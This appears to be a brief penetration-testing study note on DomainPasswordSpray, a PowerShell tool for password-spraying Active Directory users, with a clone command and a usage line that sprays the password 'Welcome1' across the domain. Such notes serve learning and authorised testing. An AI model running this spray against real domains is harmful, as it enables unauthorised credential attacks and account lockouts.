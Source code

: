 domainPasswordSpray
###################

Date: 2024-12-19 13:24:50

Status: #complete

Tags: :ref:`Active Directory Enumeration Attacks`

Description
***********

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

Installation
************

.. code-block:: console

    git clone https://github.com/dafthack/DomainPasswordSpray

Usage
******

.. code-block:: console

    PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
    PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue




References
**********
https://github.com/dafthack/DomainPasswordSpray